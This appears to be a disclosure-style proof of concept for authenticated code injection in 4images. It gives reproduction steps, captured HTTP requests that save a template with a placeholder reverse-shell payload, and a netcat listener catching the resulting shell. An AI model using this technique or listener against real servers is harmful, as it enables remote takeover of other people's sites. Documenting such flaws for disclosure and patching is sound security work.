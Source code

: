 
Code Injection


To reproduce do the following:

1. Login as administrator user
2. Browse to "General" -> " Edit Templates" -> "Select Template Pack" -> "default_960px" -> "Load Theme"
3. Select Template "categories.html"
4. Paste reverse shell code
5. Click "Save Changes"
6. Browse to "http://host/4images/categories.php?cat_id=1"


// HTTP POST request showing reverse shell payload
```
POST /4images/admin/templates.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]

__csrf=c39b7dea0ff15442681362d2a583c7a9&action=savetemplate&content=[REVERSE_SHELL_CODE]&template_file_name=categories.html&template_folder=default_960px[...]
```


// HTTP redirect response to specific template
```
GET /4images/categories.php?cat_id=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]
```

```
# nc -kvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 43032
Linux kali 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 GNU/Linux
 13:54:28 up  2:18,  2 users,  load average: 0.09, 0.68, 0.56
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali     tty7     :0               11:58    2:18m  2:21   0.48s xfce4-session
kali     pts/1    -                11:58    1:40  24.60s  0.14s sudo su
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
```








